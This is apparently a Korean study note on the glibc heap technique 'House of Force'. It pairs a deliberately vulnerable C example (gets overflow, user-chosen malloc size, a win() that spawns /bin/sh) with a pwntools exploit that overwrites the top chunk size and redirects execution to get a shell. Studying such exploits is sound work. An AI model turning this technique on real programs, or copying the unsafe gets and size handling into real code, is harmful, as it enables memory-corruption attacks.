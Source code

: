 ```yaml
---
title: 각종 size를 이용한 공격 방법
date: 2019-01-29
---
```


# House Of Force

생각보다 간단한 공격이다.

top chunk의 size를 0xffffffffffffffff(최대치)로 overwrite 하고 malloc시 임의의 size로 할당한다면 top chunk의 위치를 바꿔 원하는 영역에 chunk를 할당받을 수 있는 공격이다. 

size는 target address - 0x10 - &top chunk 

```c
#include <stdio.h>              
#include <stdlib.h>             
#include <unistd.h>             
                                
void win() {                    
        execve("/bin/sh",0,0);  
}                               
                                
int main() {                    
        setvbuf(stdin,0,2,0);   
        setvbuf(stdout,0,2,0);  
        char * a,* a1,* a2;     
        long b;                 
        a = malloc(0x20);       
        printf("heap : %p\n",a);
        gets(a);                
        printf("size : \n");    
        scanf("%ld",&b);        
        getchar();              
        a1 = malloc(b);         
        a2 = malloc(0x20);      
        printf("Go!\n");        
        gets(a2);               
        exit(1);                
}                               
```

간단한 예제 코드고

```python
from pwn import *                             
                                              
t = process('./hf')                           
                                              
t.recvuntil("heap : ")                        
top = int(t.recvline(),16) + 0x20             
success(hex(top))                             
t.sendline("a"*0x28 + p64(0xffffffffffffffff))
t.recvuntil("size : ")                        
t.sendline(str(0x601060 - 0x20 - top))        
t.recvuntil("Go!")                            
pause()                                       
t.sendline(p64(0x0000000000400806)*2)         
pause()                                       
t.interactive()                               
```
